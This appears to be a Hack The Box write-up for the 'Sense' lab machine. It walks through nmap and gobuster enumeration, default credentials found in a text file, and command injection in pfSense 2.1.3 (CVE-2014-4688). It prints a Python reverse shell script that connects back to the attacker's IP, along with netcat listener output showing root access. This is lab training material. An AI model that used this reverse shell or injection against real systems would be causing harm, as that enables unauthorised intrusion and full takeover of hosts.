 ```yaml
---
title: "HTB - Sense"
classes: wide
tag:
- "CVE"
- "Easy Box"
- "TJ_Null's OSCP Prep"
header:
  teaser: /assets/images/htb/htb.png
ribbon: lawngreen
description: "Writeup for HTB - Sense"
categories:
  - HTB
---
```


- [BoxInfo- Sense](#boxinfo)
- [Recon](#recon)
	- [Nmap Scan](#nmap-scan)
- [Enumeration](#enumeration)
	- [Site](#site)
	- [Directory Brute-force](#dbf)
- [Exploit pfSense](#exploit-pfSense)
- [Shell as root](#shell-as-root)

## BoxInfo- Sense

The given box ```Sense``` is a pfSense machine. It hosts a site which is vulnerable to [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) through it exploited the service. No privesc in this machine.

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/Sense.png" >
</center>

## Recon 

### Nmap Scan

`nmap` found 2 open ports on TCP scans where both ports are http service.

```shell

┌[us-vip-1]─[10.10.16.6][0xM3M0RY㉿kali]─[~/htb/easy_sense]
└╼[★]$ cat nmap/initials_scans.nmap
# Nmap 7.92 scan initiated Tue Sep 20 02:20:18 2022 as: nmap -Pn -sC -sV -oN nmap/initials_scans.nmap -v 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.22s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-favicon: Unknown favicon MD5: 082559A7867CF27ACAB7E9867A8B320F
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Issuer: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-10-14T19:21:35
| Not valid after:  2023-04-06T19:21:35
| MD5:   65f8 b00f 57d2 3468 2c52 0f44 8110 c622
|_SHA-1: 4f7c 9a75 cb7f 70d3 8087 08cb 8c27 20dc 05f1 bb02
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 20 02:21:16 2022 -- 1 IP address (1 host up) scanned in 57.44 seconds
```


## Enumeration

While connecting to that site it redirects and accept the SSL certification and navigates to `https` site of that machine.

### Site

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/1.png" >
</center>

The possible way to enumerate more on this phase is directory bruteforcing and default password. Besides this we need to find the technology used to develop this login site

`<form id="iform" name="iform" method="post"  action="/index.php">` 

From the above html part, it is developed in `php`.

### Directory Brute-force

```shell
┌[us-vip-1]─[10.10.16.6][0xM3M0RY㉿kali]─[~/htb/easy_sense/bf]
└╼[★]$ gobuster dir -u https://10.10.10.60/ -w directory-list-2.3-medium.txt -k -x txt -t 250 -s 200,301,204,302
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.60/
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2022/09/20 02:41:06 Starting gobuster in directory enumeration mode
===============================================================
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/changelog.txt        (Status: 200) [Size: 271]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/csrf                 (Status: 301) [Size: 0] [--> https://10.10.10.60/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.10.10.60/filebrowser/]
Progress: 324434 / 441122 (73.55%)                                                 ^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2022/09/20 02:45:09 Finished
===============================================================
```

By brute-forcing we got two .txt files they are `changelog.txt & system-users.txt`  looking into that an interesting message note was found in changelog.txt whereas in system-users.txt file we got the username and password (company defaults).

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/2.png" >
</center>

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/3.png" >
</center>

	username: Rohit (small r)
	password: pfSense (company defaults)

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/4.png" >
</center>

## Exploit pfSense

Based on the version of pfSense `2.1.3-release` and googling it we got the below vulnerabilities and poc to the exploit this machine

[Reference to exploit the pfSense](#https://www.proteansec.com/linux/pfSense-vulnerabilities-part-2-command-injection/)

`/status_rrd_graph_img.php?start=1663575972&end=1663604772&database=system-processor.rrd&style=inverse&graph=eight_hour`

Using burp-suite intercept the request and modify the parameters,

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/5.png" >
</center>

Run the `netcat (nc)` listener in the background to get back the output.

## Shell as root

Through persisting the shell we are into `root` shell.

Since we can't use bad-characters like `/ and -` we should modify those characters using ascii.

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/6.png" >
</center>

Create a python reverse shell to send it to machine to get the connection back

```shell
┌[us-vip-1]─[10.10.16.6][0xM3M0RY㉿kali]─[~/htb/easy_sense]
└╼[★]$ cat send_cmd
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.6",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/sense/assets/images/7.png" >
</center>

Using the burp-suite send the request to get the python shell code and followed by run that particular script in the background so that once the socket connection is get closed we'll receive our shell back parallely run the listener.

```shell
┌[us-vip-1]─[10.10.16.6][0xM3M0RY㉿kali]─[~/htb/easy_sense]
└╼[★]$ nc -lvnp 9001 < send_cmd
listening on [any] 9001 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.60] 28128
^C
```

```shell
┌[us-vip-1]─[10.10.16.6][0xM3M0RY㉿kali]─[~/htb/easy_sense]
└╼[★]$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.60] 26196
# id
id
uid=0(root) gid=0(wheel) groups=0(wheel)
# whoami
whoami
root
# ifconfig
ifconfig
em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
        options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
        ether 00:50:56:b9:15:2d
        inet 10.10.10.60 netmask 0xffffff00 broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:152d%em0 prefixlen 64 scopeid 0x1
        nd6 options=1<PERFORMNUD>
        media: Ethernet autoselect (1000baseT <full-duplex>)
        status: active
plip0: flags=8810<POINTOPOINT,SIMPLEX,MULTICAST> metric 0 mtu 1500
enc0: flags=0<> metric 0 mtu 1536
pfsync0: flags=0<> metric 0 mtu 1460
        syncpeer: 224.0.0.240 maxupd: 128 syncok: 1
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> metric 0 mtu 16384
        options=3<RXCSUM,TXCSUM>
        inet 127.0.0.1 netmask 0xff000000
        inet6 ::1 prefixlen 128
        inet6 fe80::1%lo0 prefixlen 64 scopeid 0x5
        nd6 options=3<PERFORMNUD,ACCEPT_RTADV>
pflog0: flags=100<PROMISC> metric 0 mtu 33144
#
```